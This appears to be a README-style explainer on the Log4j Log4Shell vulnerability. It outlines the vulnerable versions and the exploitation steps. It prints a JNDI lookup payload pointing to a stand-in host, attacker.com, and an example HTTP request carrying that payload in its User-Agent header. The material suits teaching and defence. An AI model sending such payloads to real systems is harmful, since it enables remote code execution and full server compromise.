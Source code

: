 # LOG4j Vulnerability

Log4j is a popular Java-based logging utility used in many applications to log messages for debugging and monitoring purposes. It is part of the Apache Logging Services and provides a flexible framework for logging in Java applications. Log4j allows developers to control logging levels, output formats, and destinations (such as console, files, or remote servers).

## How to Exploit Log4j (Log4Shell)
Exploiting the Log4j vulnerability typically involves sending a malicious payload that triggers the logging mechanism to perform a JNDI lookup, which can lead to remote code execution. Here’s how the exploitation process generally works:

- ### Identify Vulnerable Application:
  The attacker identifies an application that uses a vulnerable version of Log4j (versions 2.0 to 2.14.1).

- ### Craft Malicious Input:
 The attacker crafts a malicious input string that includes a JNDI lookup. For example:
```text
${jndi:ldap://attacker.com/a}
```
- ### Send Malicious Payload:
  The attacker sends this payload to the application in a way that it gets logged. This could be through HTTP headers, user input fields, or any other logging mechanism that the application uses.

Example: An attacker might send a request to a vulnerable web application:

```text
GET /some-endpoint HTTP/1.1
Host: vulnerable-app.com
User-Agent: ${jndi:ldap://attacker.com/a}
```
- ### Trigger JNDI Lookup:
  When Log4j processes the log message, it interprets the ${jndi:...} syntax and performs a JNDI lookup to the specified LDAP server (in this case, attacker.com).

- ### Execute Malicious Code:
  The attacker’s LDAP server responds with a reference to a malicious Java class. When the application loads this class, it executes arbitrary code on the server, leading to a full compromise.
